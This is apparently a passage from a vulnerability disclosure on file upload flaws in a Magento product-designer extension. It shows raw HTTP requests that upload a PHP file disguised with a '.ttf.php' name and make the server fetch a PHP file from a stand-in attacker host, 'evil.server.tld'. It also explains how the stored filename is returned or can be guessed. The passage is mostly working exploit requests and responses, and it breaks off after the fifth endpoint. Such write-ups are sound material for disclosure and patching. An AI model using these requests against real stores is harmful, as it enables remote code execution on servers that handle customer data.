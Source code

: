 ### Request:
```
POST https://testing.local.tld/pdp/upload/uploadImage/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="filename"; filename="somes.ttf.php"
Content-Type: text/plain

<?php

phpinfo();

---------------------------acebdf13572468--
```

### Response body (JSON)
```
["https:\/\/testing.local.tld\/media\/pdp\/images\/upload\/1479934682-customupload.php"]
```

The uploaded file is placed in Magento's `media/pdp/images/upload/` directory.  
The file's generated filename is returned in the response body.
The file's original extension (last split-on-dot token) is trusted as the output extension.  
The file's Content-Type is ignored.

Files that don't pass image type checks will still be uploaded, even though the response will be an error.
In this case, the generated filename will have to be guessed.   
Generated filenames follow the `%d-%s-custom.%s` pattern, 
using the current UNIX timestamp and uniqid() as prefixes, which makes the filenames harder to predict.  

---

## Endpoint 5

### Request:
```
POST https://testing.local.tld/pdp/upload/copyImageFromUrl/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="url"

http://evil.server.tld/misc/what.php
---------------------------acebdf13572468
Content-Disposition: form-data; name="product_id"

0
---------------------------acebdf13572468--
```
